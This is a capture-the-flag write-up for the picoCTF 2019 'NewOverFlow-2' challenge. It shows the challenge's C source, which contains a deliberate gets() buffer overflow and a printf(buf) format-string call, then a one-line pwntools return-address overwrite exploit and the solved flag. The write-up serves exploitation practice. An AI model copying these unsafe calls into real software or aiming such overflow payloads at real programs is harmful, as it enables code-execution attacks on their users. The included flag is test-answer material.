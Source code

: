 # NewOverFlow-2 

Points : 250

# Question

Okay now lets try mainpulating arguments. [program](vuln). You can find it in /problems/newoverflow-2_5_13f3d3dc09fc09d6d5db8adfa899a05d on the shell server. [Source](vuln.c).

# Hint 

Arguments aren't stored on the stack anymore ;)

# Solution

looking at the source code it seems that we need to pass some arguments inorder to get the flag 
```
#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}
```

however like the hint suggests they are no longer on the stack, the solution to this challenge is exactly [NewOverFlow1](https://github.com/netanelc305/picoCTF-2019/tree/master/Binary%20Exploitation/NewOverFlow-1)

all need is to change the adresses to the current program adresses.
```
python -c "from pwn import *; print'X'*72+p64(0x00000000004008b1)+p64(0x000000000040084d)" | ./vuln
```

![](newover1.png)

# Flag
picoCTF{r0p_1t_d0nT_st0p_1t_b3358018}

